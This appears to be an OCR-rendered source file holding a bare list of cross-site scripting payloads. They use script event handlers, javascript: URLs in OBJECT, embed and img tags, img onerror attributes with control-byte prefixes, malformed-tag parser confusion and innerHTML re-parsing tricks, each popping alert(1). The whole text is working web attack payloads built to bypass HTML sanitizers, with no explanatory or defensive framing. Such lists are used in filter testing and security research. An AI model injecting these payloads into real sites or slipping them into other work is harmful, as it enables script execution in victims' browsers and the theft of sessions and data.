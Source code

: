 &lt;SCRIPT FOR=document EVENT=onreadystatechange&gt;javascript:alert(1)&lt;/SCRIPT&gt;

&lt;OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"&gt;&lt;PARAM NAME="DataURL" VALUE="javascript:alert(1)"&gt;&lt;/OBJECT&gt;

&lt;b &lt;script&gt;alert(1)&lt;/script&gt;0

&lt;div id="div1"&gt;&lt;input value="``onmouseover=javascript:alert(1)"&gt;&lt;/div&gt; &lt;div id="div2"&gt;&lt;/div&gt;&lt;script&gt;

document.getElementById("div2").innerHTML = document.getElementById("div1").innerHTML;&lt;/script&gt;

&lt;x '="foo"&gt;&lt;x foo='&gt;&lt;img src=x onerror=javascript:alert(1)//'&gt;

&lt;embed src="javascript:alert(1)"&gt;

&lt;img src="javascript:alert(1)"&gt;

&lt;image src="javascript:alert(1)"&gt;

&lt;script src="javascript:alert(1)"&gt;

&lt;div style=width:1px;filter:glow onfilterchange=javascript:alert(1)&gt;x

&lt;? foo="&gt;&lt;script&gt;javascript:alert(1)&lt;/script&gt;"&gt;

&lt;! foo="&gt;&lt;script&gt;javascript:alert(1)&lt;/script&gt;"&gt;

&lt;/ foo="&gt;&lt;script&gt;javascript:alert(1)&lt;/script&gt;"&gt;

&lt;? foo="&gt;&lt;x foo='?&gt;&lt;script&gt;javascript:alert(1)&lt;/script&gt;'&gt;"&gt;

&lt;! foo="[[[Inception]]"&gt;&lt;x foo="]foo&gt;&lt;script&gt;javascript:alert(1)&lt;/script&gt;"&gt;

&lt;% foo&gt;&lt;x foo="%&gt;&lt;script&gt;javascript:alert(1)&lt;/script&gt;"&gt;

&lt;div id=d&gt;&lt;x xmlns="&gt;&lt;iframe onload=javascript:alert(1)"&gt;&lt;/div&gt; &lt;script&gt;d.innerHTML=d.innerHTML&lt;/script&gt;

&lt;img \x00src=x onerror="alert(1)"&gt;

&lt;img \x47src=x onerror="javascript:alert(1)"&gt;

&lt;img \x11src=x onerror="javascript:alert(1)"&gt;

&lt;img \x12src=x onerror="javascript:alert(1)"&gt;

&lt;img\x47src=x onerror="javascript:alert(1)"&gt;

&lt;img\x10src=x onerror="javascript:alert(1)"&gt;

&lt;img\x13src=x onerror="javascript:alert(1)"&gt;

&lt;img\x32src=x onerror="javascript:alert(1)"&gt;

&lt;img\x11src=x onerror="javascript:alert(1)"&gt;

&lt;img \x34src=x onerror="javascript:alert(1)"&gt;

&lt;img \x39src=x onerror="javascript:alert(1)"&gt;

&lt;img \x00src=x onerror="javascript:alert(1)"&gt;
